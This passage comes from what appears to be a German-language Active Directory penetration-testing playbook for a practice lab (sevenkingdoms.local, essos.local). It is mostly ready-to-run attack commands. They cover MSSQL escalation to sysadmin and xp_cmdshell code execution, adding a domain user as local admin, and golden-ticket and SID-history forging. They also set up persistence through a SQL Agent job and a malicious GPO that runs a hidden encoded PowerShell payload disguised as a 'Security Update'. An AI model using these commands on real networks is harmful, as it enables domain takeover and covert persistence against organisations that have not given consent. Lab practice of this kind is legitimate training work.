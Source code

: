 ```bash
psexec.py -k -no-pass administrator@meereen.essos.local
```

### 8.2 SQL Server Complete Compromise

#### MSSQL Advanced Exploitation
```sql
-- Auf beiden SQL Servern (192.168.20.22, 192.168.20.23)

-- 1. Privilege Escalation zu sysadmin
EXEC sp_addsrvrolemember 'domain\jon.snow', 'sysadmin';

-- 2. xp_cmdshell für Remote Code Execution
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- 3. Domain User zu Local Admin hinzufügen
EXEC xp_cmdshell 'net localgroup administrators "north\jon.snow" /add';

-- 4. Persistence via SQL Agent Job
EXEC msdb.dbo.sp_add_job @job_name = 'Database Maintenance';
EXEC msdb.dbo.sp_add_jobstep @job_name = 'Database Maintenance', 
    @step_name = 'Cleanup', 
    @command = 'powershell.exe -enc <base64_persistence_payload>';
EXEC msdb.dbo.sp_add_schedule @schedule_name = 'Daily', @freq_type = 4;
EXEC msdb.dbo.sp_attach_schedule @job_name = 'Database Maintenance', @schedule_name = 'Daily';
```

### 8.3 Cross-Domain Trust Exploitation

#### Enterprise Admin Privilege Escalation
```bash
# 1. Trust-Relationships identifizieren
nltest /trusted_domains /domain:sevenkingdoms.local

# 2. SID-History Injection (falls Parent-Child Trust)
ticketer.py -nthash <krbtgt_child_hash> -domain-sid <child_domain_sid> -extra-sid <enterprise_admins_sid> -domain north.sevenkingdoms.local administrator

# 3. Cross-Domain Golden Ticket
export KRB5CCNAME=cross_domain_admin.ccache
psexec.py -k -no-pass administrator@kingslanding.sevenkingdoms.local
```

---

## 9. Comprehensive Persistence Strategy

### 9.1 Multiple Persistence Mechanisms

#### GPO-basierte Persistence (Highest Privilege)
```powershell
# Malicious GPO erstellen und verlinken
New-GPO -Name "Security Update Service" -Domain north.sevenkingdoms.local
Set-GPRegistryValue -Name "Security Update Service" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "SecurityUpdate" -Type String -Value "powershell.exe -WindowStyle Hidden -enc <base64_payload>"
New-GPLink -Name "Security Update Service" -Target "DC=north,DC=sevenkingdoms,DC=local"
```

